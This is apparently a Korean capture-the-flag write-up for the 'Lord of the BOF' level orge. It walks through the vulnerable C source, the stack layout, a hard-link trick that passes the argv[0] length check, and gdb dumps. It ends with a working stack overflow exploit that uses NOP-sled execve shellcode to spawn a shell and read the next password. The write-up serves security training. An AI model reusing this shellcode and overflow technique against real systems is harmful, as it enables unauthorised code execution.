 ============================================================================================================
[lob] darkelf
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :ln을 통한 우회;
    
    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
            printf("argv[0] error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================


|

ln을 통한 우회 (길이 제한)
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./orge `python -c 'print "a"*47'`

    argv[0] error

    $ ./orge `python -c 'print "a"*47+"\xbf"'`

    argv[0] error

이번 문제는 argv[0]의 길이가 77 바이트를 만족해야 버퍼오버플로우를 진행할 수 있습니다.

77바이트의 길이를 가진 파일을 하나 생성하여 ln 명령으로 링크를 걸어줍니다. 

(앞에 ./가 있으므로 75바이트를 생성하면 됩니다.)

.. code-block:: console

    $ ln orge `python -c 'print "a"*75'`

    $ ls

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  orge  orge.c

    $ ./`python -c 'print "a"*75'` a

    stack is still your friend.


|


exploit
============================================================================================================

argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 \\xbf인지 확인하기 때문에, gdb를 이용하여 argv[1]이 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/darkelf/./aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffa48       -1073743288

    (gdb) i reg $ebp
    ebp            0xbffffa68       -1073743256

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa48:     0xbffffa68      0x400309cb      0x00000002      0xbffffa94
    0xbffffa58:     0xbffffaa0      0x40013868      0x00000002      0x08048450
    0xbffffa68:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffa78:     0xbffffa94      0x08048390      0x0804866c      0x4000ae60
    0xbffffa88:     0xbffffa8c      0x40013e90      0x00000002      0xbffffb90
    0xbffffa98:     0xbffffbec      0x00000000      0xbffffc1d      0xbffffc3f
    0xbffffaa8:     0xbffffc49      0xbffffc57      0xbffffc76      0xbffffc86
    0xbffffab8:     0xbffffc9f      0xbffffcbb      0xbffffcda      0xbffffce5
    0xbffffac8:     0xbffffcf3      0xbffffd35      0xbffffd48      0xbffffd5d
    0xbffffad8:     0xbffffd6d      0xbffffd7a      0xbffffd98      0xbffffda3
    0xbffffae8:     0xbffffdb4      0xbffffdc6      0xbffffdd5      0xbffffddd
    0xbffffaf8:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb08:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffb18:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffb28:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffb38:     0x000001fa      0x0000000c      0x000001fa      0x0000000d
    0xbffffb48:     0x000001fa      0x0000000e      0x000001fa      0x00000010
    0xbffffb58:     0x0fabfbff      0x0000000f      0xbffffb8b      0x00000000
    0xbffffb68:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb78:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb88:     0x69000000      0x00363836      0x6d6f682f      0x61642f65
    0xbffffb98:     0x6c656b72      0x2f2e2f66      0x61616161      0x61616161
                                                      ^               ^
    0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^
    0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^ argv[1] = 0xbffffbc7
                                                                            
    0xbffffbc8:     0x61616161      0x61616161      0x61616161      0x61616161
    ==========================================================================


|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1]의 주소로 변경하여 해당 쉘코드가 실행되도록 합니다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있습니다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./`python -c 'print "a"*75'` `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc7\xfb\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒
                                           
    bash$ whoami
    orge
    bash$ my-pass
    euid = 507
    timewalker


